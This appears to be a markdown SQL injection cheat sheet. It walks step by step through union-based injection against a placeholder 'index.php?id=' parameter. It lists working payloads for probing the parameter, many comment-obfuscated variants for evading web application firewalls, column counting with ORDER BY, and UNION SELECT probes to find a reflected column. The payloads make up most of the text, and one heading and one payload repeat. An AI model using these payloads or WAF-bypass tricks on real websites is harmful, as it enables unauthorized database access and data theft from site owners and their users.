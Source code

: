 ```http://domain.com/index.php?id=1```  
This query musn't shows up error, since there is no lower number than 1  

- If the payload shows up error, try setting a negative value:  
```http://domain.com/index.php?id=-1' order by 1-- -```  
This query musn't shows up error, since there is no lower number than 1  

  - If the payload shows up error, try removing the quote which might cause SQL error:
  ```http://domain.com/index.php?id=605 order by 1-- -```  
  ```http://domain.com/index.php?id=-605 order by 1-- -```  
 These both queries musn't shows up error. If error is still ocurring, try the following payloads:

    - If both of payloads don't work, it is problably a WAF blocking it. Try the following blocks until you won't see WAF detection or SQL syntax error.  
```http://domain.com/index.php?id=1' order by 1 desc-- -```  
```http://domain.com/index.php?id=1' group by 1-- -```  
```http://domain.com/index.php?id=1' group by 1-- -```  
```http://domain.com/index.php?id=1' /**/ORDER/**/BY/**/ 1-- -```  
```http://domain.com/index.php?id=-1' /*!order*/+/*!by*/ 1-- -```  
```http://domain.com/index.php?id=1' /*!ORDER BY*/ 1-- -```  
```http://domain.com/index.php?id=1'/*!50000ORDER*//**//*!50000BY*/ 1-- -```  
```http://domain.com/index.php?id=1' /*!12345ORDER*/+/*!BY*/ 1-- -```  
```http://domain.com/index.php?id=1' /*!50000ORDER BY*/ 1-- -```  
```http://domain.com/index.php?id=1' order/**_**/by 1-- -```  
```http://domain.com/index.php?id=1\ order by 1-- -```  
```http://domain.com/index.php?id=1' order by 1 asc-- -```  
```http://domain.com/index.php?id=1' group by 1 asc-- -```  
```http://domain.com/index.php?id=1' AND 0 order by 1-- -```  
    
    - If none of the payloads didn't bypass WAF, try again the payloads by following the 2 rules below:
      - Add a minus (-) before 1 (example: ```?id=-1' /**/ORDER/**/BY/**/ 1-- -```)  
      - Remove the quote (') after the parameter value (example: ```?id=1 /**/ORDER/**/BY/**/ 1-- -```)

In this case, the payload ```?id=1 order by 1-- -``` worked and website loads successfuly. Now it is time to find the correct number of columns. Now let's use the payload that worked, and try increasing the number by 1, untill an error shows up: 

```http://domain.com/index.php?id=1 order by 1-- -``` no error  
```http://domain.com/index.php?id=1 order by 2-- -```  no error  
```http://domain.com/index.php?id=1 order by 3-- -```  no error  
```http://domain.com/index.php?id=1 order by 4-- -```  no error  
```http://domain.com/index.php?id=1 order by 5-- -```  error: ```Unknown column '5' in 'order clause'Unknown column '5' in 'order clause'```  

This means there are only 4 columns. Now we have to find which one of these 4 columns have information.  

## Find the vulnerable column where information are stored using 'UNION SELECT' query  

Using a simple query, we determine which of the 4 columns reflect our input using. Only 1 of these payloads will run without **syntax error**. *NOTE: If none worked, try the same payloads, but remove the quote (') after number 1.*    

```http://domain.com/index.php?id=1' Union Select 1,2,3,4-- -```  
```http://domain.com/index.php?id=-1 Union Select 1,2,3,4-- -```  
```http://domain.com/index.php?id=-1' Union Select 1,2,3,4-- -```  
```http://domain.com/index.php?id=1'+UNION+ALL+SELECT+null,null,null,null--+-```  
```http://domain.com/index.php?id=1' Union Select null,2,3,4-- -```  
```http://domain.com/index.php?id=1' Union Select 1,null,3,4-- -```  
```http://domain.com/index.php?id=1' Union Select 1,2,null,4-- -```  
```http://domain.com/index.php?id=1' Union Select 1,2,3,null-- -```  
```http://domain.com/index.php?id=.1' Union Select 1,2,3,4-- -```  
```http://domain.com/index.php?id=-1' div 0' Union Select 1,2,3,4-- -```  
```http://domain.com/index.php?id=1' Union Select 1,2,3,4 desc-- -```  
```http://domain.com/index.php?id=1' AND 0 Union Select 1,2,3,4-- -```  

Website must successfully load and we will see a number (in our case between 1-4)  

## Find the vulnerable column where information are stored using 'UNION SELECT' query  

```